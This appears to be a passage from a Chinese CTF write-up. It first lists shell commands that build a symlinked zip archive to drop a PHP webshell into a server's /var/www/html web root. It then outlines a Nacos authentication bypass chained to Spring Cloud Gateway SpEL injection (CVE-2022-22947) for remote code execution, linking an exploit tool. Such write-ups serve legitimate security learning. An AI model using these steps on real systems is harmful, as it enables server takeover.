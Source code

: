 创建一个带软连接目录的压缩包，软连接指向网站根目录/var/www/html

再上传一个带马的压缩包，这个压缩包解压到/tmp的软连接目录的同时也会解压到网站根目录

>ln -s /var/www/html ciscn	# 创建软连接
>zip -y link.zip ciscn 	# -y保留链接模式压缩
>rm ciscn  #删去软连接目录
>mkdir ciscn	# 故意相同文件名，方便后续覆盖ciscn指向的文件地址（在该地址添加解压出的文件）
>cd ciscn
>echo 'shell' > shell.php	# 创建木马
>cd ..
>zip -r link1.zip ciscn 	# -r压缩整个文件夹

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240920160348036.png)

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240920160313119.png)



## BackendSerivce

Nacos权限绕过到spring cloud gataway spel表达式注入

https://xz.aliyun.com/t/11493#toc-3

spring cloud gateway CVE-2022-22947 移步我的blog。

https://godownio.github.io/2023/04/19/spring-cloud-gateway-cve-2022-22947-spel-biao-da-shi-zhu-ru/

nacos利用工具，直接进

https://github.com/charonlight/NacosExploitGUI/releases

2.3.2和2.4.0可以直接Derby SQL RCE，

0.1.0<= Nacos <= 2.2.0 权限绕过

这里是探测出来是2.1.0版本。那就权限绕过登进去看看

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240920165635577.png)

登进去

根据

https://xz.aliyun.com/t/11493?u_atoken=70c5589dffd2ae75b8b51f10f52b210d&u_asig=ac11000117268228405895054e007f#toc-4

得知，在SpringCloud GateWay配置文件bootstrap.yml中，看与Nacos连接的情况

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240920170414441.png)

如果服务器开了 /actuator接口，那就能直接POST包进行RCE，不用通过Nacos，不过需要spring cloud服务出网

开启了以下两行配置时，便会开启该接口

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240920193424445.png)

如果没开/actuator接口，或者出不了网，通过Nacos修改配置文件也能RCE
